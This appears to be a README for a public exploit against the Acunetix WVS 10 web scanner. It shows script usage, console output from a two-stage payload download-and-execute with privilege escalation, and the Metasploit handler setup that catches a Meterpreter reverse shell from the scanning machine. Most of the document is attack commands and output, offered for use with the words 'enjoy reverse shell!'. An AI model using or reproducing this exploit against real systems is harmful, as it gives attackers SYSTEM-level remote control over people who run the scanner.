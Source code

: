 # Acunetix10 0day RCE

# 使用方法

- Run script with <localport> <msf地址>

```
Acunetixy.py  9999 172.16.24.1
Acunetix WVS 10 - SYSTEM Remote Command Execution (Daniele Linguaglossa)
Payload: Meterpreter reverse TCP 4444
Exploit started on port *:9999
[+] Waiting for scanner...
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_1 + PAYLOAD_DOWNLOAD_EXEC sending (2100) bytes !
[*] Triggering EXPLOIT_STAGE_2 sending (5068) bytes !
[*] Sleeping 1 minutes to elevate privileges...ZzZz
[!] Stopping server !
[!] Exploit successful wait for session!
```
- Then start a metasploit session and listen on port 4444

```
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
- Start a new scan with Acunetix using your local ip and enjoy reverse shell!
`
msf exploit(handler) > run
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.24.192
[*] Meterpreter session 1 opened (172.16.24.1:4444 -> 172.16.24.192:51782) at 2016-05-02 15:02:31 +0200
`

`视频地址:https://www.youtube.com/watch?v=gWcRlam59Fs`
## ExploitDB地址
`https://www.exploit-db.com/exploits/39755/`
